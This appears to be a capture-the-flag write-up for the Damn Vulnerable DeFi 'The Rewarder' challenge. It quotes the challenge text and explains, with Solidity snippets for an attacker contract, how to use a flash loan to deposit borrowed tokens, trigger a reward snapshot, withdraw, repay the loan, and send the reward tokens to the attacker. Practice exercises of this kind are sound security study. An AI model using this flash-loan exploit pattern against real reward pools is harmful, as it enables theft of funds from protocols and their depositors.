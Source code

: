 #### Challenge description

> There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
>
> Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
>
> You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
>
> Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans? 

#### Solution

The TheRewarderPool mints reward tokens every time it calls `distributeRewards()` and the user has an amount of rewards larger than 0, which is computed as follows:

```cs
rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;
```

To claim such rewards, `isNewRewardsRound()` has to return `true`. The only way this can happen is if it's been 5 days since the last snapshot was taken. 

What we have to do here is deploy an attacker contract that can perform the following steps, this all has to be done _twice_, both times after waiting 5 days<sup><b>*</b></sup>:

* Take a loan from the flash loaner pool of a large amount of tokens, ideally all of them:

```cs
flashLoanerPool.flashLoan(IERC20(pool.liquidityToken()).balanceOf(address(flashLoanerPool)));
```

Then, in its `receiveFlashLoan()` function:

* Approve the spending limit of the liquidity token to equal the amount borrowed from the flash loaner pool:

```cs
IERC20(pool.liquidityToken()).approve(address(pool), amount);
```

* Deposit the tokens and then withdraw them. This will call `distributeRewards()` on deposit, which will send the attacker contract all the reward tokens that correspond to it 

```cs
pool.deposit(amount);
pool.withdraw(amount);
```

* Return the tokens to the flash loaner pool

```cs
IERC20(pool.liquidityToken()).transfer(address(flashLoanerPool), amount);
```

* Transfer all tokens to the attacker address, which I set up as `owner` during deployment

```cs
IERC20(pool.rewardToken()).transfer(address(owner), IERC20(pool.rewardToken()).balanceOf(address(this)));
```
